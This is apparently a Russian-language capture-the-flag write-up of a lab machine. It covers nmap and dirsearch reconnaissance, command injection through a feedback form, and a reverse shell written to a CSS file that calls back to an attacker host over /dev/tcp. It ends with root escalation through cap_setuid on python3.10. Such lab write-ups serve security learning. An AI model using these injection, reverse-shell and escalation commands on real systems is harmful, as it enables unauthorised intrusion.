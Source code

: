 #легкая #пентест #hackerlab #pinkot
## Разведка
1) Просканировал ip 192.168.2.219 с помощью nmap, используя следующие команды:
```
nmap -sC -sV 192.168.2.219
```
а также 
```
sudo nmap -p- 192.168.2.219
```
2) на этапе разведки получил следующую информацию

Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-09-14 21:56 MSK
Nmap scan report for 192.168.2.219
Host is up (0.041s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 4c:70:d6:90:e9:ec:d1:f7:ef:d2:5b:d5:44:bf:67:c6 (ECDSA)
|_  256 a6:42:dd:0d:0e:8a:ef:f8:76:49:e1:10:5d:4c:fc:cf (ED25519)
80/tcp open  http    Apache httpd 2.4.52 ((Ubuntu))
|_http-server-header: Apache/2.4.52 (Ubuntu)
|_http-title: GreenEdge Portal
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

3) помимо этого пофаззил с помощью dirsearch, с последующим выводом
 [21:56:28] 200 -  317B  - /about.php
[21:56:38] 200 -    0B  - /config.php
[21:56:39] 200 -   44B  - /contact.php
[21:56:43] 200 -  385B  - /feedback.php
[21:56:43] 200 -   26B  - /footer.php
[21:56:44] 200 -  225B  - /header.php
[21:56:46] 301 -  319B  - /javascript  ->  http://192.168.2.219/javascript/
[21:56:57] 403 -  278B  - /server-status/
[21:56:57] 403 -  278B  - /server-status
[21:57:00] 301 -  315B  - /static  ->  http://192.168.2.219/static/

## Выбор вектора атаки
1) Сначала меня смутила версия ssh (OpenSSH 8.9p1 ), и была предпринята попытка воспользоваться CVE-2024-6387 (https://github.com/Karmakstylez/CVE-2024-6387)
   Но попытки перехватить сессию не увенчались успехом.
2) Потом я зашел на страчку  192.168.2.219:80, интересным сразу стало поля длы feedback (также это видно после фаззинга dirsearch)
3) Окошко писало:
   Message sent successfully
   Content: <вывод написанного пользаком>
4) В попытках найти уязвимость, была принята попытка ввести js-скрипт
   ```
   <script>alert('XSS')</script>
   ```
   На что ответ был: Content: <пусто>
# Эскплутация 
 1) Потыкав, была обнаружена Comand Injection
 на ввод: ``` ;ls   ``` следовал ответ 
   ```
   about.php
   config.php
   contact.php
   feedback.php
   footer.php
   header.php
   index.php
   static
   ```
   2) в директории   ```static   ``` была обнаружена директория ```css   ``` где был обнаружен файл style.css с правами rwxrwxrwx, 
  3)  я переименовал файл в main (для удобства) а также изменил содержимое, убедившись в том что это работает  я решил залить в файл шелл (пользовался эти сайтом https://www.revshells.com/ )
### В окошке сайта
```
   ;mv static/css/style.css static/css/main
   ;echo "sh -i >& /dev/tcp/192.168.119.18/4440 0>&1" > static/css/main
   ;bash static/css/main
```
###       На xосте
```
nc -lvnp 4440
```
4) Таким образом я смог подлючиться к удаленному серверу. Зайти удалось под пользователем www-data (```whoami```), и доступ к некоторым файлам и директориям был закрыт. Структура файловая система настораживала, поэтому после ```ls -ahl | grep docker``` был обнаружен файл .dockerenv, и тогда я понял, что нахожусь в контейнере.
5) Перемещаюсь внутри контейнера в tmp был обнаружен linpeas.sh с правами на исполнение ```./linpeas.sh```  
6) После его исполенения в поле Capabilities была найдена строчка ```/usr/bin/python3.1cap_setuid=ep```
файлу /usr/bin/python3.10 установлена capability 
cap_setuid похволяет программе произвольно менять UID (идентификатор пользака), флаг ep означает что капабилити активна  и разрешена к использованию
7) Я запустил следующую команду:
```
/usr/bin/python3.10 -c 'import os; os.setuid(0); os.system("/bin/bash")'
```

import os позволил импортировать модуль для работы с OC
os.setuid(0) Установил UID 0 (root)
os.system("/bin/bash") позволил мне запустить shell (/bin/bash), таким образом скрипт запустился от имени root

Под root я пошарился по директориям, зашел в root и home/charley где и нашел кусочки флага собрав один  CODEBY{FR0M_F33DB4CK_70_R007_1337}
Та-дааам флаг найден))
